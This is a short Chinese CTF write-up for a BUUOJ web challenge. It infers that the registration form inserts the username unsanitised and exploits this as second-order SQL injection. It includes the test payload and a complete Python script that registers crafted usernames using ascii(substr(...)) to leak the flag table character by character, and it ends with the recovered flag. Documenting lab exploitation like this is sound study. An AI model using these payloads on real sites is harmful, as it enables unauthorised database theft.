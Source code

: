 ![[Pasted image 20230123100544.png|500]]

```
/login.php
```

![[Pasted image 20230123100602.png|700]]

```
/register.php
```

![[Pasted image 20230123101004.png|700]]

```
/index.php
```

![[Pasted image 20230123101414.png|700]]

![[Pasted image 20230123105630.png|200]]

只有用户名存在回显

猜测注册时执行类似下面的查询

```sql
INSERT INTO users (username, password, email)
VALUES ('$username', '$password', '$email')
```

注册时，如果用户名包含`,`则会回显`nnnnoooo!!!`

尝试对用户名进行注入

```
username='+7*8+'
```

![[Pasted image 20230123111509.png|200]]

验证了上面的猜测

```python
import requests
import time
import os
from bs4 import BeautifulSoup

url = 'http://xxx.node4.buuoj.cn:81/{}'
session = requests.sessions.Session()


def register(username, password, email):
    data = {'username': username, 'password': password, 'email': email}
    requests.post(url.format('register.php'), data=data)

def login(email, password):
    data = {'email': email, 'password': password}
    session.post(url.format('login.php'), data=data)

def get_username():
    return BeautifulSoup(session.get(url.format('index.php')).text, 'lxml').select_one('.user-name').getText()

def hack(username, password, email):
    register(username, password, email)
    login(email, password)
    print(chr(int(get_username())), end='')
    os.sys.stdout.flush()

for index in range(100):
    hack("'+ascii(substr((select * from flag) from {} for 1))+'".format(index), '123', '{}@123.45'.format(index))
    time.sleep(0.5)
```

```
flag{621b1f14-9443-4f74-af48-f6783c178030}
```

#Web #SQL注入
